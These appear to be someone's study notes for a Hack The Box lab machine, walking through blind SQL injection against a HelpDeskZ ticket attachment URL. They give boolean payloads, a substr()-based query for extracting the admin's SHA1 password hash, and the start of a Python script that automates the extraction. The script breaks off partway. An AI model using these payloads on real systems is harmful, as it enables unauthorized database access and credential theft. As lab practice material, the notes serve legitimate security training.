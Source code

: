 
- **NOTE in burpsuite can select cookie and press Ctrl+Shift+U to URL Decode cookie**
- login the helpdesk with above credentials, turn on burpsuite and try to catch one of the image attachments in burpsuite
	![[OSCP/Hack-The-Box/Attachments/Pasted image 20250322164709.png]]	- also right click image attachment and copy link address:
		- http://help.htb/support/?v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=5&param[]=10
	- test for sqli
		- pass and 1=1 -- with the above url i.e:
		- http://help.htb/support/?v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=5&param[]=10 and 1=1 --
			- send to repeater and send
			- will show a good response
			- if we add 2=1 it will return page not found so its some sort of boolean thing
		- **in the helpdeskz github we see under controllers>staff>login_action.php that there is a table called staff with columns username and password. WE ALSO SEE IT USES SHA1 which is 40 characters long**
		- to check admin:
			- add this to url:
				 ```bash
and (select (username) from staff limit 0,1) = 'admin'-- -
```
				- we get is true. although we can try other usernames to see how it acts when false
			- now we try to find password and email:
				- we use substr() function to loop character by character as we need to brute force the password with hex chracters [abcdef0123456789] such that when it does match it returns the character. this needs to be in a loop so we can get the full password of 40 characters (as its sha1)
				- to try (this is not ideal as we dont know the first character but still) add this to url and it should return true i.e the attachment:
					```bash
and substr((select password from staff limit 0,1),1,1) = 'd'-- -
```
				- So we need to make a script :
					```python
import requests
def blindInject(query):
    url = f"http://help.htb/support/?v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=1&param[]=6 {query}"
    cookies = {'PHPSESSID':'ll7c00m03d6nh99i6045migku3'}#,'usrhash':'0Nwx5jIdx+P2QcbUIv9qck4Tk2feEu8Z0J7rPe0d70BtNMpqfrbvecJupGimitjg3JjP1UzkqYH6QdYSl1tVZNcjd4B7yFeh6KDrQQ/iYFsjV6wVnLIF/aNh6SC24eT5OqECJlQEv7G47Kd65yVLoZ06smnKha9AGF4yL2Ylo+HIKS3/iW3kiF8K/Ue8Cb5I4zT2ohgObsSGs6UnIhb2aA=='}
    response = requests.get(url,cookies=cookies)
#    if "404" in response.content
#        print ("hi")
#print(blindInject("2=1"))
    rContentType = response.headers["Content-Type"]
    if rContentType == 'image/jpeg':
#        print("WOOT")
        return True
    else:
#        print("NOOB")
        return False
